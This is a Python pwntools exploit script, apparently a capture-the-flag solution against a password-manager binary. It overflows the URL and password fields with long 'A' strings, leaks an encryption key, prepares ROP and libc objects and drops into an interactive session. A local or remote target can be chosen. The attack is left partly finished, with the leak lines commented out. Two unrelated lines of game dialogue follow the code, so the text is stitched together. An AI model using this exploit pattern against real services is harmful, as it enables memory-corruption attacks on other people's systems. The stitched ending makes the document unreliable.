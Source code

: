 ```python
    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    binary = ELF(args.binary)
    libc = ELF(args.libc)
    rop = ROP(binary)

    url = b'http://' + b'A'*128 + b':'
    
    print('[+] Creating malformed entry')
    p.recvuntil(b'> ')
    p.sendline(b'1')
    p.recvuntil(b'URL: ')
    p.sendline(url)
    p.recvuntil(b'Password: ')
    p.sendline(b'A'*64)

    print('[+] Leaking encryption key')
    key = leak_encryption_key()
    assert len(key) == 64
    print(key)

    gdb.attach(p)

    input('[Type ENTER to continue]')
    p.recvuntil(b'> ')
    p.sendline(b'1')
    p.recvuntil(b'URL: ')
    p.sendline(url)
    p.recvuntil(b'Password: ')
    p.sendline(b'A'*255) # make program crash if no null byte while reading

    p.recvuntil(b'> ')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(b'1')
    #p.recvuntil(b'Password: ')
    #leak = u64(p.recvline().replace(b'A'*128, b'').ljust(8, b'\x00'))
    #print(hex(leak))

    p.interactive()
```


[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!